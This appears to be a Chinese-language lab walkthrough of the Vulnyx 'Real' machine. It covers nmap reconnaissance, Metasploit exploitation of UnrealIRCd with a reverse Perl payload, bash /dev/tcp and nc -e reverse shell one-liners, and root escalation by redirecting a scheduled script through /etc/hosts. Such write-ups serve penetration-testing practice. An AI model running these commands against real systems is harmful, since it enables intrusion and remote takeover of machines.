







# 环境

来自[Vulny_Real](https://vulnyx.com/#Real)，利用已知unrealIRcd漏洞，定时脚本提权反弹shell

UnrealIRCd 是一个开源的 IRC（Internet Relay Chat）服务器软件，它用于构建和维护 IRC 网络。IRC  是一种古老的实时通信协议，允许用户通过加入不同的“频道”进行聊天和信息交流。每个 IRC  服务器都托管一个或多个频道，用户可以连接到服务器并加入这些频道与其他用户交流。

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.15
```



## 服务详情

```bash
sudo nmap -sVC -O -p22,80,6667,6697,8067 192.168.10.15
```



## 目录扫描

```bash
dirb http://192.168.10.15 #无结果
```

# UnrealIRCd 渗透

## 利用已知漏洞

```bash
msfconsole
search UnrealIRCd
set rhost 192.168.10.15
set payload cmd/unix/reverse_perl
set lhost 192.168.10.10
run
```



这个shell不好用，可以再反弹一个shell

```bash
bash -i >& /dev/tcp/192.168.10.10/8888 0>&1 #或者
nc -e /bin/bash 192.168.10.10 8888

#########得到交互式更好的shell
/bin/script -qc /bin/bash /dev/null
ctrl+z
stty raw -echo;fg
reset xterm
export TERM=xterm-256color
source /etc/skel/.bashrcs
############
```

## 提权

发现sudo需要密码，跑linpeas.sh也没发现什么，再跑进程监控pspy，发现有一个奇怪脚本执行



```bash
cat /opt/task  #发现会
echo "192.168.10.10 shelly.real.nyx" >> /etc/hosts
```



等待root反连


